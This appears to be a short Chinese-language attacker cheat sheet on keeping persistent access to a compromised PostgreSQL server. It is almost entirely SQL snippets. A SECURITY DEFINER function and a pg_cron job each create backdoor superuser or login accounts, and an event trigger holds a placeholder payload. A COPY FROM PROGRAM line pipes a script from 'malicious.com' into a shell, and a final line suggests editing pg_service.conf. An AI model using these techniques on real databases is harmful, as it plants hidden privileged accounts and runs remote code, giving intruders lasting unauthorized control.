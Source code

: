 ## 持久化

### 创建持久化函数

```sql
CREATE OR REPLACE FUNCTION backdoor_func()
RETURNS void AS $$
BEGIN
  -- Payload
  -- This could be something like creating a new superuser.
  CREATE ROLE persist_user WITH LOGIN SUPERUSER PASSWORD 'secret';
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

### 事件触发器

```sql
CREATE OR REPLACE FUNCTION ddl_audit_func()
RETURNS event_trigger AS $$
BEGIN
   -- Payload goes here
   INSERT INTO audit.log (action) VALUES ('DDL command executed');
END;
$$ LANGUAGE plpgsql;

CREATE EVENT TRIGGER ddl_audit_trigger
ON ddl_command_end
EXECUTE FUNCTION ddl_audit_func();
```

### pg_cron 计划作业

```sql
SELECT cron.schedule('0 0 * * *', $$CREATE USER backdoor WITH PASSWORD 'mypassword'$$);
```

### 滥用 COPY FROM PROGRAM

```sql
COPY localtable FROM PROGRAM 'curl http://malicious.com/shell.sh | sh';
```

### 修改启动程序

更改pg_service.conf文件内容即可
